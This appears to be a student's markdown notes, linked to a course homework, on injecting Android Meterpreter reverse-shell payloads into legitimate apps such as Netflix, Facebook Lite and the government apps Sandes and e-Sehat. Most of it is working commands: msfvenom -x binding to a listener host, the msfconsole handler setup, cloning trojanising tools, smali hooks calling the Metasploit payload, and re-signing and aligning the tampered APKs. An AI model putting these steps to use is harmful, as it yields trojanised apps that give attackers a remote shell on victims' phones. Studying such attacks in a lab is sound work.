



http://gauss.ececs.uc.edu/Courses/c653/homework/assgn6.pdf

# Injecting into a benign app

https://apps.evozi.com/apk-downloader/?id=com.netflix.mediaclient


## injecting onto linux

### for installing apktool for decompiling

Linux:

    Download Linux wrapper script (Right click, Save Link As apktool)
    Download apktool-2 (find newest here)
    Rename downloaded jar to apktool.jar
    Move both files (apktool.jar & apktool) to /usr/local/bin (root needed)
    Make sure both files are executable (chmod +x)
    Try running apktool via cli

apparently we can also use something like msfvenom like

### open source tools available

from : https://secnhack.in/multiple-ways-to-embed-a-payload-in-an-original-apk-file/

`msfvenom -x com.netflix.mediaclient_35512_apps.evozi.com.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o netflix.apk`

on console

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 192.168.1.10
set lport 4444
run

using apk binder

git clone https://github.com/kinghacker0/Apk-Binder
cd Apk-Binder/
bash apk-binder.sh

git clone https://github.com/ivam3/embed.git
cd embed/
bash set-apktool


git clone https://github.com/PushpenderIndia/apkinfector.git
cd apkinfector/
python3 infector.py

git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
bash setup.sh

git clone https://github.com/M4sc3r4n0/Evil-Droid.git
cd Evil-Droid
chmod +x evil-droid
bash evil-droid

# trying the msfvenom

msfvenom -x Sandes-Apk-v2.2.19.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o sandesha.apk

### requirements
apksigner
apktool
zipalign

This always fails with a png file error for some reason

# trying msfvenom method with another apk

https://secnhack.in/perfectly-inject-a-payload-in-an-original-facebook-apk/

works in fb_lite apk. msfvenom.

fblite.apk
https://www.apkmirror.com/apk/facebook-2/lite/lite-10-0-0-6-140-release/facebook-lite-10-0-0-6-140-android-apk-download/download/?key=a605dc618942ae884172637cb5ceb0a0a450565a

msfvenom -x fb_lite.apk -p android/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -o fb.apk

# trying the manual way

https://www.youtube.com/watch?v=6SaZqm9c1W0

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.132 LPORT=4444 R > payload.apk

apktool d Sandes-Apk-v2.2.19.apk 
apktool d payload.apk

thunar to open files

where the activity starts 
in.nic.gimkerala.Call_SFU_three_Activity"

inside Call_SFU_three_Activity
invoke-super {p0, p1}, Lo/jm0;->onCreate(Landroid/os/Bundle;)V
invoke-static {p0}, Lcom/metsploit/stage/Payload;->start(Landroid/content/Context;)V



This just results in the png error.
so same thing happening even when doing it manually

### signing

using key tool



### using zipalign



### dbugging png error

```
W: aapt: brut.common.BrutException: brut.common.BrutException: Could not extract resource: /prebuilt/linux/aapt_64 (defaulting to $PATH binary)
W: libpng error: Not a PNG file
W: ERROR: Failure processing PNG image /tmp/d20230522-106531-me31us/original/res/drawable-mdpi/people_28_filled.png
Error: Unable to rebuild apk with apktool
```

### sol 1

```
apktool d -f -r

I was also getting the same error. Use flags -f and -r during apktool d

Now during build there is no resource error.

```

### sol 2

```
Replacing apktool-dirty with apktool solves the problem. To do so, first remove existing apktool using the following command:
sudo apt remove apktool
sudo apt autoremove

Then follow the link for installing apktool:
https://ibotpeaches.github.io/Apktool/install/


```

however this downs't work for pngs however it solves the error of brute exception

### sol3 

Lets try manually changing the png file and replacing it with a copy of any alternate png file.

### using jarsigner

https://medium.com/modulotech/how-to-sign-an-unsigned-apk-using-command-line-636a056373a0

keytool -genkey -v -keystore <release_keystore.keystore> -alias <alias_name> -keyalg RSA -keysize 2048 -validity 10000

jarsigner -keystore <keystore_file>  -storepass <storepass> -keypass <keypass> <unsigned_apk_file> <alias_name>


`jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore e-Sehat_1.10_Apkpure.apk sandes`

`zipalign -v 4 esehat.apk esehat_1.apk`

### Tools to look into for developement

https://github.com/PushpenderIndia/apkinfector

